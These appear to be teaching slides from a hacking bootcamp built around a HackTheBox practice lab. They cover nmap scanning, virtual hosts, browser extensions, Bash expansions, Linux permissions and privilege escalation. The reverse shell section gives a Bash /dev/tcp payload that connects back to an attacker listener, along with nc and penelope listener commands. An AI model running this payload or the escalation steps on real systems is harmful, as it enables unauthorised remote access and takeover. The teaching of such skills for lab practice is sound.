




Hacking Bootcamp S7: And all the pieces matter
Today
- HackTheBox
- Port scanning
- Virtual Hosts
- JavaScript capabilities
- Browser extensions
- Bash expansions
- Reverse shell
- Linux permissions
- Ownership
- SUID
sudo
- Basic Linux privilege escalation
sudo- Writable (and readable) files
- Service enumeration (processes and sockets)
- Python imports
- Searching the web
- Hack time!
Tools
Install please:
- nmap
- openvpn
HackTheBox
HackTheBox (HTB) is a platform for practicing penetration testing on vulnerable machines running on the HTB network.
They have varying degrees of difficulty, use different operating systems (mainly Linux and Windows), and have different vulnerable services.
Accessing the lab
We must connect to the HTB network using a VPN downloaded from their site to be able to reach our targets.
sudo openvpn CONFIG.ovpn
We must keep that command running while doing the machine and should stop it after.
Flags
Each box has two flags indicating you have reached some level of compromise of the server.
The first is the user flag (readable by some user) and is usually located at /home/some-user/user.txt.
The second is the root flag (readable by root) and is usually located at /root/root.txt.
Getting the values stored in these two flags will be our general objective.
Typical workflow
- Enumerate the server
- Gather information
- Identify potential vulnerabilities
- Exploit vulnerability (get initial user)
- Privilege escalation (get from initial user to root)
Port scanning
So, we have a host and want to see what services are running on it.
TCP handshake
Remember:

TCP handshake rejected
A handshake only completes if there’s a service listening on destination port.
Otherwise, the server will respond with a RST packet.

nmap
Network exploration tool and security / port scanner
sudo nmap -p- -sS -Pn -A -oA tcp -T4 --min-rate 1000 -vv --reason $HOST
-p-: Scanall ports-sS: TCP SYN scan-Pn: Treat host as online-A: OS and version detection, script scanning, and traceroute-oA: Save results in all formats-T4: Be aggresive--min-rate: Send packets no slower than NUM per second-vv: Increase verbosity--reason: Display the reason a port is in a particular state
TCP SYN scan

Example
# Nmap 7.98 scan initiated Sat Mar 7 13:10:10 2026 as: nmap -sS -Pn -p- -oA nmap/tcp -A --min-rate 1000 -T4 --reason -vv 10.129.244.79 Nmap scan report for 10.129.244.79 Host is up, received user-set (0.10s latency). Scanned at 2026-03-07 13:10:11 -05 for 79s Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE REASON VERSION 22/tcp open ssh syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 256 02:c8:a4:ba:c5:ed:0b:13:ef:b7:e7:d7:ef:a2:9d:92 (ECDSA) | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJW1WZr+zu8O38glENl+84Zw9+Dw/pm4IxFauRRJ+eAFkuODRBg+5J92dT0p/BZLMz1wZMjd6BLjAkB1LHDAjqQ= | 256 53:ea:be:c7:07:05:9d:aa:9f:44:f8:bf:32:ed:5c:9a (ED25519) |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICE6UoMGXZk41AvU+J2++RYnxElAD3KNSjatTdCeEa1R 80/tcp open http syn-ack ttl 63 nginx 1.24.0 (Ubuntu) | http-methods: |_ Supported Methods: GET HEAD |_http-title: Browsed |_http-server-header: nginx/1.24.0 (Ubuntu) Device type: general purpose|router Running: Linux 4.X|5.X, MikroTik RouterOS 7.X OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) TCP/IP fingerprint: OS:SCAN(V=7.98%E=4%D=3/7%OT=22%CT=1%CU=32837%PV=Y%DS=2%DC=T%G=Y%TM=69AC6A52 OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS( OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11 OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN( OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R= OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F= OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD= OS:S) Uptime guess: 21.272 days (since Sat Feb 14 06:40:26 2026) Network Distance: 2 hops TCP Sequence Prediction: Difficulty=257 (Good luck!) IP ID Sequence Generation: All zeros Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE (using port 443/tcp) HOP RTT ADDRESS 1 105.14 ms 10.10.14.1 2 103.84 ms 10.129.244.79 Read data files from: /nix/store/vn1wqbv2qzrfi4cwzi9yy36nbw4myhmb-nmap-7.98/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Sat Mar 7 13:11:30 2026 -- 1 IP address (1 host up) scanned in 79.62 seconds
Exploring open ports
Once we have a list of listening services on the server (open ports), we must go around each one gathering information and searching for possible vulnerabilities that would further our access.
Common things to search for are user information (emails, username, names), version numbers (of the services running), accessible endpoints, and a general feel for what each service might be doing.
HTTP Host
The HTTP Host request header specifies the host and port number of the server to which the request is being sent.
Host: <host>:<port>
Virtual Hosts
We can host multiple websites with heterogenous content on a same server (same
IP) by checking the Host header and returning a different site based on its
value.
Nginx example
# Configuration for example.com server { listen 80; server_name example.com www.example.com; root /var/www/example.com; } # Configuration for blog.example.com server { listen 80; server_name blog.example.com; root /var/www/blog.example.com; }
JavaScript capabilities
JavaScript (JS) runs on a browser managed sandbox, it can’t interact directly with the host OS (no syscalls, arbitrary reads/writes, etc).
Within the sandbox, JS may:
- Read/modify the Document Object Model (the live HTML of a site)
- Receive and handle user interaction (mouse, keyboard)
- Make network requests (almost only HTTP)
- Store and read data in the browser (associated with the page)
- Etc
window.fetch
Method that fetches a resource from the network and allows handling the response asynchronously.
const response = await fetch("https://example.org/post", { method: "POST", headers: { "Content-Type": "application/x-www-form-urlencoded", }, // Automatically converted to "username=example&password=password" body: new URLSearchParams({ username: "example", password: "password" }), // … });
window.origin
Read-only property, returns the origin of the global scope.
console.log(window.origin); // 'https://developer.mozilla.org'
document.domain
Property that gets/sets the domain portion of the origin of the current document.
console.log(document.domain) // developer.mozilla.org
document.cookie
Property that gets/sets the cookies associated with a document.
Browser extensions
Browser extensions are packaged JS (and HTML, CSS) that runs on a browser on addition to web pages regular JS.
It has access to the same web APIs and also has access to some extra browser APIs.
Anatomy

manifest.json
Contains metadata about the extension (name, version, permissions).
Also contains references to other files in the extension.
{
"background": {
"scripts": ["jquery.js", "my-background.js"]
},
"content_scripts": [
{
"exclude_matches": ["*://developer.mozilla.org/*"],
"matches": ["*://*.mozilla.org/*"],
"js": ["borderify.js"]
}
],
"manifest_version": 3,
"name": "Extension name",
"permissions": ["webNavigation"],
"version": "0.1",
"web_accessible_resources": ["images/my-image.png"]
}
manifest_version
Version of manifest.json used by this extension.
For simplicity, we will further assume version 3.
host_permissions
Use the hostpermissions key to request access for the APIs in your extension that read or modify host data, such as cookies, webRequest, and tabs.
"host_permissions": [ "*://developer.mozilla.org/*", "*://*.example.org/*" ]
Background scripts
Scripts that run independently of the lifetime of any particular web pages or browser windows.
Non-persistent since manifest v3, they respond to an event and unload when idle.
Content scripts
Use content scripts to access and manipulate web pages. Content scripts are loaded into web pages and run in the context of that particular page.
Communicating with background scripts - One-off messages
| In content script | In background script | |
| Send a message | browser.runtime.sendMessage() |
browser.tabs.sendMessage() |
| Receive a message | browser.runtime.onMessage |
browser.runtime.onMessage |
Bash expansions
Words in a Bash command line are subject to multiple expansions that change the command line before running it.
Order
The expansions done are (in the order they are applied):
- brace expansion
- tilde expansion
- parameter/variable expansion
- arithmetic expansion
- command substitution
- word splitting
- pathname expansion
- quote removal
Parameter expansion
Variables (environment or local) are replaced with their values.
$ echo $PATH /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
Arithmetic expansion
Evaluates an arithmetic expression and substitutes the result.
$ echo $((1 + 2)) 3 $ echo "$((a[$(echo hello)]))" # ??? 0
Command substitution
Replaces a command with its output.
$ echo $(ls) bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var $ echo `ls` bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
Reverse shell
A reverse shell is a shell session inititated in host and forwarded to a listening remote.
We can use reverse shells to get persistent access (execute multiple commands) to a device.
Payload
To get a reverse shell we must execute some code on the victim that starts the shell and forwards it.
This payload varies according to the OS and installed utilities.
Classic Bash payload
bash -i >& /dev/tcp/$IP/$PORT 0>&1
Online generator
Many payload options
Listener
As the listener must initiate a connection, we must be ready to receive it.
nc
Simple netcat receiver.
nc -lvn $PORT
The shell we receive will not be a full PTY shell, so it won’t have all the niceties we are used to (completion, keyboard shortcuts).
We can upgrade our shell to a full PTY, or we can do it automatically…
penelope
Penelope is a powerful shell handler built as a modern netcat replacement for RCE exploitation, aiming to simplify, accelerate, and optimize post-exploitation workflows.
penelope -i tun0
Linux permissions
Ownership
Files and directories in Linux have an owner user and owner group.
They indicate the user and group that control a file and can change permissions.
Permissions
Controls what operations can be done by which users on files/directories.
Permitted to who?
In Unix-like systems, there are three common permission sets.
user: owner of the filegroup: users in the file’s groupothers: user that don’t fitownerorgroup
Permitted what?
The most common permissions are:
- r(ead): Read file
- w(rite): Write to file
- x(ecute): Execute file as a program
These permissions have different semantics for directories.
ls example
The format of ls -l indicates the file owner, the permissions allowed to user, group and others, among other file metadata.
$ ls -l /etc/hosts -rw-r--r-- 1 root root 172 Mar 14 20:33 /etc/hosts

Depend on process
Processes try to operate on files and it’s according to their permissions that they are allowed to.
Processes get their permissions from the user (really, from the parent process) that started them.
root user
root is the superuser in a Linux system.
- Has full control over the system
- Can read and modify any file
- Can modify system configuration
Getting root access means full compromise of the machine.
sudo
Allows executing commands as another user (usually the root user).
sudo CMD tries to run the command as root.
sudo -l shows the allowed commands that can be called with sudo.
Example
$ sudo -l
Matching Defaults entries for mark on guardian:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User mark may run the following commands on guardian:
(ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
We are mark and can run the command /usr/local/bin/safeapache2ctl as any user
(specified by (ALL)).
Privilege escalation
Once we have access as some user (initial foothold), we want to escalate our privileges to those of another more powerful user (usually root).
There are many techniques for achieving that.
Readable files
We might have read access to files containing sensitive data (private keys, passwords, hashes, session tokens).
Files to check are service configuration files, password stores and such.
We could also check source code of other applications running on the host to search vulnerabilities in them.
Commands
Find readable files from current directory
$ find -readable 2>/dev/null
Find from the root path, will show much output.
$ find / -readable 2>/dev/null
Writable files
We could also have write access to sensitive files. We could change the allowed credentials for some (more privileged) service on the computer, make their configuration more permissive, or even replace the code that it runs.
$ find / -writable 2>/dev/null $ find -writable 2>/dev/null
sudo
As sudo allows us to run commands as root, it’s a good place to search for vulnerabilities.
The program we can run could allow us to read files, write files, or even execute arbitrary commands.
As such, always check for sudo -l.
Python imports
Python import statements load code from other files (called modules).
The files to import are searched from:
- The current directory (the directory of the python proceess)
- The
PYTHONPATHenvironment variable - The Python installation paths
Python compiled bytecode (.pyc files)
While Python code is usually interpreted, it can also be compiled down to a more
amenable representation for execution and be loaded when requesting the
corresponding .py file.
This is Python bytecode and uses the .pyc extension, it’s usually stored in a __pycache__/ directory.
Searching
We will never know everything, but what we don’t know, we can search.
When we find a command, service, configuration option, or file that we don’t understand, we search for it on the Internet.
Of course, we will prioritize what looks promising based on our experience.
Further learning
- pwn.college — Learn to Hack! https://pwn.college/
- HackTheBox Academy https://academy.hackthebox.com/